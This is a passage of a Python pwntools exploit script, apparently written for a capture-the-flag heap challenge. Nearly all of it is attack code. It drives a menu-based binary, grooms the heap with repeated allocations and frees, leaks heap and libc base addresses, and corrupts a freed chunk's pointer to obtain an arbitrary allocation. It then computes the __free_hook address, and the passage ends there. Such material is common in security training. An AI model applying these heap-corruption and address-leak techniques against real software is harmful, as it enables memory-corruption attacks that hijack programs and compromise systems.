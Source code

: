 ```python
    sh.sendline(str(idx))
    sh.recvuntil(': ')
    sh.sendline(str(size))
    sh.recvuntil(': ')
    sh.send(content)

def edit(idx, size, content):
    sh.recvuntil('Input your choice:\n')
    sh.sendline('2')
    sh.recvuntil(': ')
    sh.sendline(str(idx))
    sh.recvuntil(': ')
    sh.sendline(str(size))
    if(size == 0):
        sh.recvuntil('error!\n')
    else:
        sh.recvuntil(': ')
        sh.send(content)

def remove(idx):
    sh.recvuntil('Input your choice:\n')
    sh.sendline('3')
    sh.recvuntil(': ')
    sh.sendline(str(idx))

def show(idx):
    sh.recvuntil('Input your choice:\n')
    sh.sendline('4')
    sh.recvuntil(': ')
    sh.sendline(str(idx))

def group():
    sh.recvuntil('Input your choice:\n')
    sh.sendline('5')

for i in range(14):
    add(i, 0x50, 'a\n')

for i in range(6):
    remove(i)

edit(6, 0, '')
edit(7, 0, '')
for i in range(8, 14):
    remove(i)

show(6)
sh.recvuntil('content: ')
heapbase = u64(sh.recvuntil('\n')[:-1].ljust(8,'\x00')) -0x460
log.success('heapbase: ' + hex(heapbase))

edit(7, 0x50, p64(heapbase+0x250))
group()
add(8, 0x50, 'a\n')
group()

sh.recvuntil('Input your choice:\n')
sh.sendline('666')
sh.recvuntil('gift: ')
libcbase = int(sh.recvuntil('\n')[:-1],16) - 0x264140
log.success('libcbase: '+ hex(libcbase))

free_hook = libcbase + 0x1e75a8
```